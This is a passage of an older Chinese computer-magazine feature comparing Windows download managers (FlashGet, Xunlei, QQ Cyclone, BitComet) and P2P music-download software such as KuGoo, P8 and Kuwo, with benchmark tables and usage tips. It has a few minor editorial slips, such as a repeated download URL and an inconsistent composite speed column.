- (4) 支持的功能，包括是否支持断点续传，支持的软件格式，支持的下载协议等。

小知识：
网上几种常见的文件传输协议。

- ① HTTP协议：“超文本传输协议”（Hyper Text Transfer Protocol），现在网上最主要的文件传输方式。
- ② FTP协议：“文件传输协议”（File Transfer Protocol），主要用于在因特网上传送文件。
- ③ MMS协议：“微软媒体服务器”（Microsoft Media Server），这种协议由微软指定，用来访问并且用于流式接受Windows media服务器的流文件，也是链接Windows Media单播服务的默认方法。
- ④ RTSP协议：“RTSP”（Real Time streaming Protocol）是由RealNetwoks和Netscape共同提出的是一种实时流协议。该协议定义了一对多应用程序如何有效地通过IP网络传送多媒体数据。RTSP在体系结构上位于RTP和RTCP上，它使用TCP或RTP完成数据传输。

测试过程中所使用硬件环境配置如下：

| CPU | XP1800+AE E08 |
| --- | --- |
| 内存 | 512MB |
| 硬盘 | 80GB |
| 操作系统 | Windows XP |
| 网络性质 | 内部校园网 |

下面，我们精选几款优秀的下载软件进行对比评析。在测试对象选择上，尽量选择使用了上述流行下载技术，侧重于WEB下载方式，而且必须是最新版本。通过各大下载站点的前十名综合筛选以及流行下载排行榜排名比较，精选以下测试对象：

表1 主流下载软件参数

| 软件名称 | 软件性质 | 文件大小 | 适用平台 |
| --- | --- | --- | --- |
| FlashGet V1.8.2 | 免费版 | 1.42MB | Win9x/ME/NT/2000/XP |
| 迅雷 V5.5.6 稳定版 | 免费版 | 4.06MB | Win9x/ME/NT/2000/XP |
| 超级旋风 V1.1 | 免费版 | 1.21MB | Win9x/ME/NT/2000/XP |
| 比特彗星 V0.85 | 免费版 | 5.95MB | Win2000/XP |

## 二、安装和界面：寻找最有面子的“王者”

用户接触软件的第一印象是安装过程和界面，好比找工作过程中的面试一样，这会形成用户的第一感觉。那么，在上述软件中，哪款最有面子呢？

### 1. 快车

软件下载地址：http://im.qq.com/cyclone/index.shtml

软件安装过程很简单，并提示是否安装“Google工具栏”。安装结束时，有一个PPlive的小广告，很容易让人误解为是一个插件。不过，总体安装速度不错，是否安装插件的提示也很清楚。软件界面采用了传统的经典风格，界面简单实用。如果不需要右侧的网络热门推荐，可以通过“查看”菜单下的“资源推荐框”取消它，如图3所示。

### 2. 迅雷

软件下载地址：http://www.xunlei.com

软件界面采用了淡蓝的色调，通过渐变色的配合，总体上给人冷静、清爽的感觉。安装时会提示“迅雷听听”和“Google工具栏”的广告，用户可以自己选择是否安装。软件安装完毕也会给出提示：“打开新的IE窗口，IE右键菜单会出现‘使用迅雷下载’”。另外，在更新升级的时候，软件也会提示是否安装“迅雷安全下载组件”。尽管安装过程中的广告比较多，但安装过程的提示一般比较醒目。不过，软件界面上的广告明显偏多。为了配合网站宣传，软件还需要注册“雷友”，通过获取积分来获得更多的下载资源，同时还可以参加迅雷公司高档显卡、精美T恤抽奖活动。软件界面如图4所示。

### 3. 超级旋风

软件下载地址：http://im.qq.com/cyclone/index.shtml

软件安装过程很快，没有任何广告。软件能够自动和QQ帐号关联在一起，界面也十分干净，如图5所示。

### 4.比特彗星（BitComet）

软件下载地址：http://www.bitcomet.com/
安装过程中会提示是否安装 Google 工具条。在快结束时，提示是否将“BitComet 上网导航——影视 BT 增强版”设为首页。软件界面也很整洁，仅显示出一些常用的功能，非常实用。主界面左侧窗口显示下载的队列以及比较知名的种子发布站点，中间窗口则显示下载的任务，支持多任务下载，窗口下方可以显示下载任务的各种详细信息，包括任务摘要、服务器列表、文件列表等详细内容。右侧广告可以通过单击“视图”下的“右侧内容介绍”去掉，如图 6 所示。

通过上述分析，结合安装提示、界面美化以及广告、注册等指标，除了迅雷表现稍微落后，其他软件差距不大；超级旋风表现堪称完美，几乎没有给用户设置任何障碍，大有后来居上之势。总体评分如下：

表2 软件安装及界面对比

| 软件名称 | 安装提示 | 界面 | 广告及注册 | 综合得分 |
| --- | --- | --- | --- | --- |
| FlashGet V1.8.2 | ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★★★☆ |
| 迅雷 V5.5.6 | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ |
| 超级旋风 V1.1 | ★★★★★ | ★★★★★ | ★★★★★ | ★★★★★ |
| 比特彗星 V0.85 | ★★★★★ | ★★★★☆ | ★★★★☆ | ★★★★☆ |

## 三、下载速度：寻找最快的“王者”

下载过程中，最重要的指标就是要速度快，同时也要性能稳定。下面，选择晚上 21:00~22：00 左右即上网的高峰期进行测试。测试标准为选择同一个文件，使用不同的下载工具进行下载。下载过程中，关闭其他的下载工具。为了保证测试的公平性，选择本地网络中的同一个文件进行下载，保证每个软件都处于同样的测试环境。同时，所有的下载平均值均由软件统计，其中测试速度统计信息如图 7 所示。

表3 软件下载速度对比

| 软件名称 | 校园(教育网) | 华军(电信) | 天空(丽水网通) | 综合值 |
| --- | --- | --- | --- | --- |
| FlashGet V1.8.2 | 2596.05 KB/s | 102KB/s | 88 KB/s | 71.97 KB/s |
| 迅雷 V5.5.6 | 5191.68KB/s | 105KB/s | 205.89 KB/s | 120.93 KB/s |
| 超级旋风 V1.1 | 8652.8KB/s | 135KB/s | 53.38 KB/s | 91.63 KB/s |
| 比特彗星 V0.85 | 9735KB/s | 107KB/s | 117 KB/s | 107.12 KB/s |

通过上述测试，可以看到，迅雷、比特彗星和超级旋风都取得了不错的成绩。由于采样有一定偏差，在不同的网络环境下也会对最终的结果产生一定的影响，因此上表结果仅供参考。值得注意的是，尽管最近麻烦不断，使用了 P2SP 下载技术的迅雷依然取得了不错的成绩。相比之下，新版的 FlashGet 在下载速度上稍逊一筹。作为后起之秀的超级旋风整体表现中等，但后劲很足，在电信网络中的测试甚至取得了最好的成绩。因此，上述数据可供不同网络环境下的用户作为参考。

## 四、资源占用：寻找最稳定的“王者”

在测试的过程中，能够明显感觉机器速度变慢，到底哪个软件会占用更多的资源呢？下面，分别在 HTTP 下载和无下载任务的情况下记录上述软件的内存占用情况：

表4 没有下载任务和 HTTP 下载时的内存占用对比

| 软件名称 | 没有下载任务 | HTTP下载 | 综合评分 |
| --- | --- | --- | --- |
| FlashGet V1.8.2 | 7.1M | 12.8M | 9.95M |
| 迅雷 V5.5.6 | 18.4M | 27.2M | 22.8M |
| 超级旋风 V1.1 | 8.3M | 12.6M | 10.45M |
| 比特彗星 V0.85 | 7.5M | 14.2M | 10.85M |

通过对比可见，FlashGet 和比特彗星所占用的资源稍小，系统也更稳定；超级旋风所占用的资源次之；而迅雷所占用的资源则明显超过其他软件，对于内存比较大的用户来说问题不大，但对内存相对较小的用户就要进行一番筛选了。

## 五、特色功能和资源：寻找最方便的“王者”

一般来说，用户对自己长期使用的某一款软件总是有一些忠实度，这其中包含了许多的因素，其中功能性的因素占据着十分重要的地位。下面，我们结合最新版本的特点，逐一进行点评。

### 1.快车

快车（FlashGet）是一个老牌下载软件，它兼容 BT、传统（HTTP、FTP 等）等多种下载方式，可支持多种资源格式。在高速下载时，软件能够维持超低资源占用，不干扰用户的其他操作；UDCT（Ultra Disk Cache Technology）超磁盘缓存技术能够全面优化硬盘读写。软件使用了 MHT（Multi-server Hyper-threading Transportation）多服务器超线程传输技术，能最大限度优化算法，通过智能拆分下载文件、多点并行传输，使下载更快更稳定。

#### （1）支持 BT 功能

新版本软件中，快车全方位支持 BT 种子制作和发布。此外，软件能够智能检测下载资源，HTTP/BT 下载切换无须手工操作。

##### 小技巧：

开启了BT下载任务后，其他下载任务变慢了怎么办？

答：缺省情况下，快车是不对BT下载做限速的，如果发现BT下载干扰了其他下载，可在BT下载任务上单击右键，选择属性，然后进入高级设置，启用“允许单独设置任务参数”。另一种方法是直接对BT下载做速度限制，进入“工具”菜单下的“选项”，找到“BT”栏，调整“全局下载速度限制”和“全局上传速度限制”两个参数。

#### (2) 自由设置任务下载计划

可随意更改下载任务的次序，自定义文件管理规则，将下载文件自动分类到指定目录。分类文件夹支持单个文件或者整个文件夹导入，并建立相应目录结构。此外，软件还支持拖拽、更名、添加描述及查找功能，文件名重复时自动重命名。

#### (3) 多代理功能提高下载速度

网际快车提供了“多代理功能”，能够突破对下载速度做的限制。使用之前，可以下载QQ代理服务器2005，找到各类代理服务器地址。软件下载地址为http://www2.skycn.com/soft/9642.html。在快车中进行设置即可。

##### 小技巧：

- ①运行快车，在主界面选择“工具”菜单下的“选项”，打开“代理服务器”，在这里添加代理服务器。
- ②点击“添加”按钮，填入代理服务器的名称、IP地址和端口。选择“类型”为“HTTP”(端口和类型根据实际情况设置)。如果代理服务器需要“用户名”和“口令”，要点击“验证”填好。采用类似方法添加多个服务器。
- ③添加完成后，要把服务器“名称”前的“多代理”复选框选中，还要把“直接连接”的“多代理”也选上，如图8所示。

#### (4) 杀毒功能

通过快车可以配置杀毒程序对下载后的文件进行检查，保护系统安全。此外，快车还提供了“站点资源搜索器”，可以很方便地搜索相关资源。选择“工具”菜单下的“站点资源搜索器”，在地址栏输入此目标网站的地址。这时，站点资源搜索器开始工作，详细的资源列表就会呈现在眼前。比如，找到比较喜欢的SWF文件，点右键选择“下载”即可。

### 2. 迅雷

迅雷使用了多资源超线程技术，通过将网络上存在的服务器和计算机资源进行有效的整合，构成独特的迅雷网络，从而能够以最快的速度进行传递。多资源超线程技术还具有互联网下载负载均衡功能，在不降低用户体验的前提下，迅雷网络可以对服务器资源进行均衡，有效降低了服务器负载。

#### (1) 下载信息更清晰

软件提供了功能强大的任务管理功能，可以选择不同的任务管理模式。在已下载区包括：软件、游戏、音乐、影视、手机、歌曲等分类，下载后软件可以自动归类。

#### (2) 在线搜索

迅雷正式版增加了在线搜索功能。以往我们无论是下载软件、MP3还是游戏等，可能都需要去相关网站进行分类查找，经过相当繁琐操作后才得到相关链接进行下载。而现在迅雷新版的搜索功能十分方便。例如，你想下载歌曲《变心的翅膀》，只需在搜索栏中输入相应的歌曲名，同时将搜索的内容选择在MP3上，一按确定，弹出页面中就会弹出相关歌曲的下载链接，直接点击就可使用迅雷轻松下载。

#### (3) 丰富的资源功能

在迅雷窗口的右下角是最热门的游戏排行榜，可以寻找喜欢的网络游戏一试身手。软件提供了FTP探测器，单击“工具”菜单下的“资源探测器”，即可打开“FTP站点资源探测器”，这是迅雷自带的FTP软件，其功能主要是访问FTP，取得文件列表，然后可让用户选择下载，并在迅雷中实现下载管理，如图9所示。

#### (4) 强大的设置功能

迅雷提供了下载管理、批量下载、同时开始任务数设置、下载后关机等功能，这些功能都可以通过简单的设置实现。此外，还有代理检测、和免费/合作下载链接等功能。

#### (5) 错误诊断和病毒防护功能

软件提供了错误诊断功能，帮助用户解决下载失败的问题；通过病毒防护功能，可以和杀毒软件配合，保证下载文件的安全性。

### 3. 超级旋风

超级旋风以腾讯QQ软件为基点，在功能上也很有个性。软件和腾讯QQ紧密的绑定在一起，一般下载软件所具有的共性，比如多线程、网页监视、下载分类等功能，## 超级应用方案特辑·网络

也都可从此款软件中找到。总体来看，简单高效是此款下载软件的最大特色。

#### （1）支持多种协议

从支持的下载协议类型上说，软件支持FTP、HTTP协议下载，但不支持“mms://”式的下载；可以采用多种方式建立下载任务，较为灵活。

#### （2）病毒扫描

单击“工具”菜单下的“设置”按钮，然后选择“病毒保护”选项。设置杀毒软件时，点击右侧的“浏览”按钮，选择机器上已安装的杀毒软件程序。有些杀毒软件启动时，需要设置一定的参数，可到杀毒软件的官方网站上查找相关说明。由于查杀病毒时会消耗系统资源，对于类似bmp或mp3等不容易感染病毒的文件类型，可以跳过，只设置对容易感染病毒的exe、rar、zip等文件进行自动扫描，如图10所示。



#### （3）资源管理功能强大

软件提供了对下载文件的分类管理功能，并为用户提供了“软件”、“音乐”、“游戏”、“电影”四个默认分类，当然也可自由新建分类；另外，软件会自动保存用户最近使用的存储目录，可以方便地在“存储目录”的下拉列表中选择；下拉列表中最后一项为“清除历史记录”，选中该项则清除所有保存在下拉列表的存储目录。下载文件管理功能还包括支持更名、拖拽、添加描述、查找，还有文件名重复时可自动重命名等。

#### （4）实用的设置和保护功能

软件可进行“下载速度限制”、“磁盘缓存”以及“下载完成后自动关机”等设置。由于软件采用多服务器下载同一资源的方式，类似P2P模式，因此其提供了对硬盘的保护功能，即“磁盘缓存”设置；其范围是256-8192K，下载数据达到这个值以后才一次性地向硬盘写入，这样可大大减少硬盘写入次数。

#### （5）灵活的下载速度限制功能

超级旋风使用多种加速的技术，下载的时候基本上会占用全部的带宽，当用户带宽较小，又需要在下载的同时进行其他的网络活动的时候，就需要对下载速度进行限制，保留一部分的带宽出来从事其他的网络活动

### 4.比特彗星 BitComet

BitComet将BT技术应用到普通的HTTP/FTP下载，可以通过BT技术加速下载。软件支持简繁体中文及英文等多种语言，其整体设计布局类似于专业下载工具，除可自定义视图外，在程序的选项中还可设置界面外观。

#### （1）下载资源管理

在BitComet下载管理窗口的主界面中，左侧窗口显示的是下载队列以及比较知名的种子发布站点。点击相应的站点，即可用IE浏览器打开相应的BT下载网页，这为寻找种子文件提供了非常丰富的BT资源。

#### （2）磁盘缓存技术

该软件采用了磁盘缓存技术，通过它可以有效减小高速随机读写对硬盘的损伤，真正起到保护硬盘的作用。在这里您可以设定磁盘缓存的大小，建议设定缓存大小要适中，设置太大则占用硬盘空间；设置太小则起不到保护硬盘的作用。所以在选项对话框中缓存设置在6MB-50MB比较合适。

### （3）BT聊天室

BT下载软件中带有聊天功能的不多见，BitComet便是其中之一。首先在“选项”对话框中对“聊天设置”的“允许聊天”项勾选，再选中“昵称”栏输入您的称谓。接着在主界面左侧窗口中选中“BitComet聊天室”进入聊天界面。

| 软件名称       | BT  | 丰富网络资源 | 病毒扫描 | 多任务/代理 | 多协议 | 综合   |
|----------------|-----|--------------|----------|-------------|--------|--------|
| FlashGet V1.8.2| ☆   | ☆            | ★        | ★           | ★      | ★★★★☆  |
| 迅雷 V5.5.6    | ★   | ★            | ★        | ★           | ☆      | ★★★★☆  |
| 超级旋风 V1.1  | ☆   | ☆            | ★        | ★           | ☆      | ★★★☆☆  |
| 比特彗星 V0.85 | ★   | ★            | ★        | ★           | ★      | ★★★★☆  |

通过特色功能对比，可以看到：超级旋风由于发布时间比较短，在网络资源和其他功能支持方面还稍有欠缺；由于人气比较高，比特彗星在这方面表现出一定的优势；迅雷也推出了许多个性化的服务，尤其是网络视频方面，吸引了不少用户；FlashGet表现继续稳中有升，在网络资源上还有待进一步加强。

## 六、小结

通过上面的测试对比，以及各大下载站点的下载、更新和人气指数对比，可以看到：

快车依然拥有大量忠实的用户，这从各大下载站点遥遥领先的下载量就能看出；在本次测试中，快车在综合性能方面表现比较均衡，软件更新速度也十分迅速，对于一般用户来说，是一个比较理想的选择。

迅雷在下载速度和网络资源上比较出众，相比“老前辈”们，的确具有一定特色和优势；而它所提供的丰富的免费资源，也能省却用户在网上搜索的时间。但资源消耗高、界面繁缛也是它所必须面对的一个问题，用户可以权衡之后进行选择。

作为下载“新人”的超级旋风，在界面上很容易赢得用户的青睐，在下载速度上也不甘示弱，由于具有腾讯公司的背景，因此软件发展潜力很不错。

如果用户对BT下载情有独钟，比特彗星也是一个很好的选择。在上述各项指标对比中，比特彗星都能表现出比较雄厚的实力，它将BT技术应用到普通的HTTP/FTP下载，对用户也具有很大的吸引力。

## 终极PK：让网络音乐下载更疯狂

文 / 彭文波

“下载网络音乐”？这是一个很有争议的话题。不过，对于音乐发烧友来说，却是一件很开心的事情。有的朋友可能会认为，无非就是通过网页搜索后下载，或者通过 BT 下载罢了。可是，免费的网页下载经常出现不能下载的情况。即使是收费站点，速度也很一般。 BT 的技术特性注定了它只适合大文件的发布，时效性较差，因此 BT 并不适合音乐文件如 Mp3、WMA 等格式文件，对众多音乐爱好者而言不能不说是一个遗憾。如今，数字音乐开始进入娱乐营销时代，精细化网络营销开始越来越受到青睐。那么，有没有能将这两者巧妙结合的软件呢？值得欣喜的是，采用 P2P 技术的国产音乐下载软件经过几年的迅速发展，已经涌现出不少优秀的代表作品。在这样的平台下，用户的自由度更高、交互性更强，开始对传统下载模式进行强有力的挑战。 2007 年以来具有代表性的软件有： KuGoo、P8数字娱乐传播平台、百宝、POCO 等。本文将针对上述几款软件在多方面进行测试，为广大音乐爱好者寻找一款适合自己的音乐文件分享和下载工具。

### 一、老牌劲旅：大气实用的KuGoo软件

推荐指数：★★★★★

软件下载地址：http://www.kugoo.com/

KuGoo是国内最大的P2P音乐共享软件，它为爱好音乐的网友们提供了一个共享音乐和互相交流的平台。KuGoo的最新版本为V3.0，它能够实行多源下载，可以明显提升下载速度。经过多个版本的发展，KuGoo的功能日渐完善，在广大用户中拥有很高的人气。

在KuGoo音乐世界集成了许多个性化的其他功能，但这些方式的主题都和音乐有着密切的关系。比如，用户可以通过写博客，制作节目单，与好友分享音乐的乐趣，认识音乐品味相似的朋友。

此外，娱乐主页每天会提供大量最新的娱乐资讯，欧美、中国和日韩的最新大碟，让用户轻松掌握前卫流行音乐信息。

为了即时交流音乐，软件提供了独创的即时聊天工具，支持在线聊天和传输文件。

### 1. 安装注册和界面

下载安装程序后，直接选择“下一步”便可完成安装。第一次使用KuGoo时要注册一个用户名，在登录对话框中单击“注册向导”，填入昵称、邮件地址、登录密码、密码提示等，就可以得到一个注册号。

首次登录后，软件会提示用户指定某一个目录作为共享。登陆后会出现导航界面，除了列出“最新专辑”、“歌手列表”和“酷狗推荐”外，KuGoo还提供了一个畅所欲言的天地——“音乐论坛”，用户可以在这里自由参加音乐方面的交流和讨论。界面如图1所示。



外观标准色是活泼的淡蓝色，给人很多联想的空间。上方是一排标准按钮和搜索栏；左边是聊天好友栏目，类似一个 QQ 界面。软件内置了漂亮时尚的音乐播放器，位置在主界面的最下方，用户能体会到一种超值的感觉，软件整体看上去十分清爽。

### 2. 用“酷狗”搜索网络音乐

KuGoo V3.0的分布式音乐搜索是最出色的亮点所在，基于P2P技术打造的软件歌曲下载速度让人感觉非常流畅，这也使得传输速度再次提升。通过KuGoo，用户可以方便、快捷、安全地从全球KuGoo用户中快速检索所需要的资料，还可以与朋友间相互传输影片、游戏、音乐、软件、图片。

点击“音乐搜索”按钮，即可进入搜索界面。在上方的文本框中输入想要寻找的歌曲名，如输入关键词：“月亮”，就可以显示出所有用户共享的网络音乐文件。软件支持的搜索格式十分丰富，包括：.mp3、.wma、.ape和.ogg等。如果在KuGoo没有搜索到喜欢的音乐资源，还可以点“网页搜索”按钮，搜索后会出现更多的相关音乐资源！

小技巧：找到心仪的歌曲后，双击想要的文件就可以开始下载。或者选定该文件，单击右键，点“下载”按钮，也可以开始下载。在右键菜单里，还可以选择“在线试听”，方便用户选择下载歌曲。试听时，播放器中会出现颜色交替变化的歌词，非常体贴周到，如图2所示。



图 2

KuGoo V3.0充分考虑了用户的个性化需求，在很多细节上让用户感觉很舒服。例如，在搜索音乐的页面，添加了搜索进度条、采样率和比特率显示，为讲究音质的用户提供了方便，对搜索音乐进行归纳，这样进行音乐检索更简单；对正在下载的音乐的歌名则呈绿色，已经存在共享音乐文件夹的歌曲名则呈蓝色，避免重复下载。

另外，在娱乐杂志的音乐节目单后面有一个“收藏”链接，对于比较好听的歌曲就可以充分利用这个功能了。点击“收藏”，就可以在播放列表里收听了。

在歌词下载方面，KuGoo V3.0不仅在试听音乐的时候有歌词同步，而且在双击歌曲名下载音乐的同时，也把匹配的歌词下载到电脑里了。

### 3.聊天交互和音乐共享功能

KuGoo 的聊天功能可以和 QQ 媲美，连上KuGoo后，就可以随时和全球各地的KuGoo会员互相下载歌曲并交上好朋友了！KuGoo拥有下载好友整个文件夹的功能，我们可以选中好友的头像，点右键选择“浏览好友共享文件”，即可看到对方所有的共享文件，即使是整张专辑也轻而易举，如图3所示。


图 3

小技巧：“共享音乐”可以立即与伙伴之间共同分享自己电脑里的文件、数据、音乐等等。“我的共享”存放的是所有共享给其它网友的文件，如想和其它网友一起分享好听的歌曲、游戏、电影、软件等，只要存放下此目录下就可以了。文件夹的存放位置可以由用户任意指定。如果不想共享文件，在“我的共享”里，点击右键，在弹出的菜单中选择“删除此共享目录”，即可取消含有隐私文件的文件夹。

### 4.下载管理

KUGOO拥有强大的网络连接功能，支持各种网络环境，支持断点续传，还将用户分流在不同的区域内，这样可以大大减少下载过程中的塞车状况，实现超高速下载。打开“下载中心”，上面显示了当前下载和被下载的文件信息和历史记录，其界面和FlashGet等下载软件非常相似，可以对各个下载进程进行继续、停止、删除等管理。如果知道下载地址，还可以在下方地址栏中输入后直接进行下载。此外，还可以通过单击“设置”菜单中的“选项”，在弹出的菜单中单击“下载”选项卡，进行下载方面的设置，如下载的带宽、最大通道和下载路径等，如图4所示。



图 4

### 5.播放列表

KuGoo V3.0增加了对网络音乐文件的管理功能，如在共享文件增加了整理功能，播放列表新增了“我的节目单”。制作之前，我们需要有自己的歌曲。选择左边播放列表中的“我的节目单”，单击右键，在弹出的菜单中选择“添加节目单”，然后根据提示完成制作。需要注意的是，完成一个节目单的制作至少需要五首以上的歌曲，如图5所示。



图 5

此外，酷狗还推出了“音乐酷吧”，这个功能是提供更多的娱乐资讯给网友，让更多的网友可以在音乐酷吧找到自己的乐趣。

总的来看，KuGoo的操作和界面简单清新，下载速度快，随着P2P技术的异军突起，我们可以预见，它将逐渐形成一个越来越庞大的音乐下载平台，用户也会逐渐喜欢上这只酷酷的“小狗”。

## 二、后起新秀：P8数字娱乐传播平台

推荐指数：★★★★☆

软件下载地址：http://www.p8.com/

P8 为国内用户提供了一个适合中文环境的多媒体数字娱乐传播平台，完全支持中文软件及中文关键字搜索，并实现真正意义上的多点传输，传输下载效率大大提高。软件安装后，浏览器、搜索中心、电子杂志、搜索结果、传输中心、资源管理等几大功能以按钮的形式，一字排开，非常简明扼要。其功能如下：

### 1.丰富的资源

P8 是以数字娱乐为主，所以它所共享的资源更丰富，更全面。在 P8 上，不仅音乐资源丰富，视频资源也相当丰富，如《大明王朝》、《火影忍者》等电视剧都可供分享下载。

### 2.内建浏览播放机制，搜索功能强大

在P8中，我们可以利用其内置的浏览器来访问 Web 页面，无须运行 IE 浏览器便能浏览网上的所有资源。P8 的浏览器界面与 IE 浏览器的使用比较起来，显得更为简洁和易用。P8数字娱乐传播平台新版本增加了磁盘缓存功能，软件不仅能够搜索和下载海量的音乐、影视、图片、软件、游戏等资源，并内建资源共享平台，让用户以最短的时间找到所需要的资源。搜索关键词“月亮”的界面如图6所示。


### 3.支持“断点续传”，下载快速方便

查找到所需资源之后，双击该文件即可将其下载到本机硬盘中。另外，P8支持“断点续传”功能，在下载过程出现意外时可以节约下载时间。通过“资源管理”，我们可以将自己的资源放在P2P平台上与其它网友共用享用。

### 4.自带播放器程序，可以边下载边播放

软件自带播放器，这样，用户无须借助其它媒体播放器，便能够欣赏下载回来的音乐和电影。播放器可以支持 AVI、MPG、mpeg、RM、WAV、ASF、MP3、MP2等常用音视频播放格式的播放。在下载过程中，支持边下载边播放，不用等下载完就能观看。

另外，P8还建立了资源丰富的索引网站，用户只要进入相应的网站，就能找到所需要的网络音乐进行下载。软件拥有简洁直观的操作界面和较低的系统资源占用率，且其运行效率非常高，是一款值得推荐的网络音乐下载软件。

## 三、方便简洁的“酷我音乐盒”

推荐指数：★★★★☆

软件下载地址：http://www.koowo.com/

“酷我音乐盒”是一款音乐资源聚合播放软件的软件，它集歌曲与 MV 资源搜索、下载、在线播放、歌词同步显示和音乐智能管理等多功能于一体。软件简洁小巧，使用起来十分方便，和“酷我”网站配套的新歌资源可以让用户每天都有新歌听。软件界面比较朴素，但每个栏目的内容都很清晰，如图7所示。



### 1.丰富的网络音乐库和实用的歌曲搜索功能

对于音乐软件来说，歌曲资源库和在线听歌功能总是受人注目的。根据其网站宣传，“酷我音乐盒”目前准备了近50万首最新歌曲资源。单击“网络曲库”选项卡，用户可以按照自己习惯的方式快速找到自己钟爱的歌手或自己特别喜欢的歌曲。在软件界面上方的搜索框中，输入需要查找的歌手或歌曲的关键词，然后单击“搜索”即可返回搜索结果。如果没有明确的搜索目的，可以使用软件的分类检索方式，按照最新专辑、榜单家族和歌手列表进行搜索。

软件的资源组织形式灵活多样，各大榜单、新专辑推荐，特别组织的MV合集以及按歌手分类歌曲等等，能够随时追踪热点动态，随用户需求变化更新。由于经过了细致的人工处理，软件返回的搜索结果没有重复链接和已经失效的“死链”。此外，软件的搜索结果包含了极大的信息量，如歌手名、歌曲名、人气指数、所在专辑、在线试听链接、下载链接、歌词和对应MV资源等。

### 2.快捷的下载功能和清晰的收藏功能

软件支持P2SP歌曲下载，下载迅速便利。下载歌曲时，用户只要在软件的歌曲列表中使用鼠标右键点击下载歌曲或单击下载图标，然后在右键菜单中选择“下载所选歌曲”选项即可。切换到“下载管理”页面，还可对下载歌曲进行集中统一管理。

### 3.方便的在线听歌功能和独特的歌词识别功能

在软件“网络曲库”页面的搜索或检索列表中，双击歌曲，软件会自动将歌曲添加到软件的播放列表，经过几秒钟的缓冲，软件自动播放歌曲。这时，将软件切换到“正在播放”页面，还可以看到软件自动为用户搜索和下载的对应歌词，而且能快速准确地搜索正在播放歌曲的歌词。在播放音乐的过程中，通过软件所独有的“酷我音乐指纹识别技术”，能够自动实时高亮显示当前歌词，而且，用户还可以对显示歌词进行进度方面的“微调”。如果用户需要，软件还支持将歌词显示模式由“普通模式”向“迷你模式”进行切换，如图8所示。



此外，在软件的歌曲列表中，专门列出了“MV播放”功能，只要在软件的“MV播放”阵列中有对应图标，用户就可以即时进行MV音乐资源的点播。点击对应歌曲的“MV播放”图标，软件会自动进入“明星模式”进行歌曲的播放。

总的来看，这款绿色小巧的免费软件在网络音乐下载方面表现十分专业，从分类搜索到下载链接的可靠性，都能看出它的魅力所在。不过，软件界面还显得比较简陋，其他个性化功能还有待扩展。

## 四、多媒体宝库“百宝”

推荐指数：★★☆☆☆

软件下载地址：http://www.100bao.com

“百宝”利用点对点技术和BT技术，加入了音频、视频、Flash、图片、软件等多种搜索引擎。我们可以通过它来搜索和下载各种各样的多媒体资源，支持的音乐格式包括：MP3、RM、WMA和RAM等。安装运行软件后，用户可以使用包括歌名、歌手名及专辑名等在内的各种关键词进行音乐搜索。使用时，首先需要进行简单的注册，每个用户拥有一个专用号。

### 1. 搜索网络音乐

成功登录后，单击上方的“资源搜索”按钮栏目，在下方的“搜索网络资源”后输入所要搜索的关键字，如输入“翅膀”。然后，单击“搜索全部”按钮，和“翅膀”相关的搜索结果就会出现在右边，双击该文件就可以开始下载了。在搜索界面中，还显示了搜索结果的大小、拥有者等参数。此外，在同一界面中，还可以进行多个关键词的搜索，如图9所示。



### 2. 在线音乐播放

在软件的搜索结果列表中，用鼠标右击某个歌曲并在右键菜单中选择“在线播放”选项，用户即可在线试听所搜索到的歌曲了。另外，软件支持对下载歌曲和用户本地歌曲进行编辑列表播放。

### 3. BT下载和目录管理

用户可以管理自己的共享目录，其中的文件可供其他用户下载。百宝的新版本增加了对目前非常流行的BT下载方式的支持，软件默认会与BT的种子文件形成关联，即该软件可以充当BT下载软件来使用一番。另外，打开软件的“网络寻宝”选项，其中内置了包括BT China联盟、BitTorrent、动漫下载基地、伊甸园BT等众多知名BT资源的发布论坛，用户可以选择感兴趣的资源来寻找喜欢的网络歌曲。

总的来看，百宝搜索功能强大，但下载质量有待提高。软件整体界面布局略显杂乱，尤其是工具栏参差不齐，导航功能很容易误导用户。尽管软件提供了BT下载功能，但与其他专业BT下载软件相比，功能的个性化还需要不断加强。

## 五、功能强大的其他网络音乐下载软件

除了上述典型的音乐下载软件，近两年也涌现出不少优秀的其他下载平台或软件。下面，选择其中功能相对较强的产品进行介绍。

### 1. 免费的宽频娱乐平台 Poco 2007

推荐指数：★★☆☆☆

软件下载地址：http://www.poco.cn

Poco2007是新一代领先的免费电影、音乐、动漫等资源下载平台，数量庞大的POCO会员的分享集中了数以百万计的海量多媒体资源；软件采用了多点传输技术，可以加快大容量文件的下载速度。通过内置的IM即时通信系统，用户可以方便、快捷的与好友一起分享音乐文件。

网络音乐下载是POCO平台中很重要的一个部分。其功能如下：

#### （1）针对网络音乐的搜索

启动POCO软件后，在登陆主窗口，点击“注册”的按钮。开始填写注册资料，注册完毕后就可得到一个用户号码，按“登陆”，再输入密码就可以立即登陆了。在主界面的左侧工具条上点击“搜索”，进入搜索界面。在操作界面输入关键字，选择搜索的文件类型，这里选择“音乐”，然后就可以搜索我们需要的文件了。

#### （2）下载

在登陆主界面后，点“下载”栏，在搜索框中输入关键字后开始搜索，搜索结果就会以列表的形式展现出来。选取我们想下载的文件，通过右键进行下载。下载时，POCO面板提供了下载速度、文件完成进度等。不过，测试过程中，软件下载速度实在太慢，用户选择时需要根据自己的网络状况进行选择。

#### (3) 会员共享

在主界面点击“共享”，下载后再选择共享文件点击共享按键，在共享的目录前打勾，确认后就自动共享了。另外还可以设置文件共享，添加所需要共享的文件即可。

值得一提的是，Poco2007并非一款专门针对音乐下载而开发的产品，任何类型的文件都可以通过Poco进行分享，其多点下载技术给人的印象尤其深刻。它主页里面还有相册、电子杂志、美食和新闻，只要登录上了POCO，就能享受到很多不同的资源，服务功能十分强大。

## 2. Vagaa哇嘎画时代 V2.6.4.3

推荐指数：★★★☆☆
软件下载地址：http://www.vagaa.com/

Vagaa 哇嘎致力于对等互联网的建设和运营，无论是电影、音乐、动漫还是游戏、电视节目，只要下载并安装Vagaa哇嘎，就可以轻松拥有这些资源。其主要特点如下：

- （1）资源丰富
支持最近的流行音乐，还包括最新的电影、动漫、游戏、现场电视节目等，支持即时点播和在线观看。

- （2）搜索功能强大
软件支持多协议搜索引擎，搜索资源无限制并行搜索请求。

- （3）下载方式多样
支持emule、BT下载，适合办公和家庭用户。

### 3. 网络音乐资源网站参考

在下载网络音乐的过程中，我们总会参考一些音乐站点，这样才能更好地把握音乐前沿信息。下面提供了几个相关的网络音乐网站，以供参考。

表1 网络音乐资源网站

| 网站名称 | 网址 |
| --- | --- |
| 百度MP3搜索 | http://mp3.baidu.com |
